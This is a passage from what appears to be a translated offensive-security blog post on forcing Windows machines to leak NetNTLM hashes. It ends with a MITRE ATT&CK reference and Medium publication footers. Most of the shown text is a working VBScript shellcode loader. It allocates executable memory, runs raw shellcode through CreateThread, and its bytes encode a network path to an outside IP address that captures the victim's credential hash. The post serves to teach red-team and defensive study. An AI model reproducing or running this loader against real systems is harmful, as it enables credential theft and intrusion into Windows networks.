&H76, &H22, &H8b, &H0c, &H81, &H03, &Hce, &He8, &H75, &Hff, &Hff, &Hff, &H03, &H45, &Hf8, &H39, &H45, &Hf4, &H74, &H1c, _
&H8b, &H45, &Hfc, &H8b, &H4d, &Hf0, &H40, &H89, &H45, &Hfc, &H3b, &H44, &H33, &H18, &H72, &Hde, &H3b, &H7d, &Hec, &H75, _
&H9c, &H33, &Hc0, &H5f, &H5e, &H5b, &Hc9, &Hc3, &H8b, &H4d, &Hfc, &H8b, &H44, &H33, &H24, &H8d, &H04, &H48, &H0f, &Hb7, _
&H0c, &H30, &H8b, &H44, &H33, &H1c, &H8d, &H04, &H88, &H8b, &H04, &H30, &H03, &Hc6, &Heb, &Hdf, &H21, &H05, &H05, &H05, _
&H50, &H05, &H05, &H05, &H6b, &H65, &H72, &H6e, &H65, &H6c, &H33, &H32, &H2e, &H64, &H6c, &H6c, &H05, &H2f, &H2f, &H33, _
&H35, &H2e, &H31, &H36, &H34, &H2e, &H31, &H35, &H33, &H2e, &H32, &H32, &H34, &H2f, &H61, &H61, &H05)

scLocation = DX.VirtualAlloc(0, UBound(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)

For i =LBound(shellcode) to UBound(shellcode)
    DX.NumPut shellcode(i),scLocation,i
Next

thread = DX.CreateThread (0,0,scLocation,0,0)
```

[https://github . com/OsandaMalith/Shellcodes/blob/master/create file/create file . VBS](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vbs)

在 Windows 中可能有许多其他方法。你永远不知道！🙂

# 参考

[](https://attack.mitre.org/techniques/T1187/) [## 强制认证

### 服务器消息块(SMB)协议通常在 Windows 网络中用于身份验证和通信…

attack.mitre.org](https://attack.mitre.org/techniques/T1187/) 

*原载于 2017 年 3 月 24 日*[*http://osandamalith.com*](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)*。*

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)